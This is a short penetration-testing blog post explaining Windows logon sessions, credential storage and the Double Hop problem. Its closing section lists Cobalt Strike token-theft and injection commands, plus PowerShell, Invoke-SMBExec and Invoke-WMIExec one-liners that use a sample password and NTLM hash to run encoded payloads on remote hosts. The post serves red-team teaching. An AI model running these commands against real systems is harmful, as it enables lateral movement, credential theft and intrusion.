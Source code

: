 ```yaml
---
layout: post
title: Windows Credential Management, Logon Sessions and the Double Hop Problem
date: '2019-04-12 21:52:17'
---
```


I wanted to provide a quick overview on Windows credential management in relation to penetration testing, why passwords are not always stored in memory and the Double Hop problem.

Windows creates a [logon session](https://docs.microsoft.com/en-us/windows/desktop/SecAuthN/lsa-logon-sessions) upon a successful authentication. Each logon session will be backed by several authentication packages. These authentication packages store the credential material. The logon type and protocol will determine what credential material gets stored.

All processes and threads have an access token that is tied to a logon session. If a process or thread wants to execute in a different security context than it must acquire the appropriate access token. This concept is called impersonation.

During a Network logon (type 3 - e.g. WMI, PsExec, SMB, etc) the client proves they have credentials but does not send them to the target. A logon session is created but no sensitive credential material will exist on the target. Processes or threads which have an access token tied to this logon session will **NOT** be able to authenticate to network resources within the context of the user. This is often termed the Double Hop problem.

During an Interactive (local console) or Remote Interactive (RDP) logon (types 2 and 10 respectively) the client sends the credentials to the target. The credentials are now stored within the credential material of an authentication package for that logon session. Processes or threads which have an access token tied to this logon session **WILL** be able to authenticate to network resources within the context of the user.

On a side note, if you have even wondered how the Mimikatz _sekurlsa::logonpasswords_ command works, it iterates over all logon sessions and dumps the credential material in each default authentication package.

You can solve the Double Hop problem by acquiring an access token for a logon session (impersonating) or injecting code into a process that contains the required access token. In Cobalt Strike this would be the commands:

    steal\_token [pid] inject [pid] \<x86|x64\> [listener] shinject [pid] \<x86|x64\> [/path/to/shellcode.bin] spawnu [pid] [listener]

If no logon sessions exist with the credential material you require, you can create one using the Cobalt Strike commands:

    make\_token [DOMAIN\user] [password] pth [DOMAIN\user] [HASH] spawnas [DOMAIN\user] [password] [listener]

Lastly you can directly pass the credentials to the tool performing the network operations like so:

    $pass = ConvertTo-SecureString 'Winter2019' -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential('DOMAIN\Account', $pass); Invoke-WmiMethod -Credential $cred -ComputerName "Target" win32\_process -name create -argumentlist 'powershell -ep bypass -noP -enc JABjACAAPQA...' Invoke-Command -Credential $cred -ComputerName "Target" -ScriptBlock {powershell -ep bypass -noP -enc JABjACAAPQA...} # https://github.com/Kevin-Robertson/Invoke-TheHash Invoke-SMBExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose Invoke-WMIExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose

Hopefully this gives you a better understanding of when you are allowed to authenticate to network resources during a penetration test.

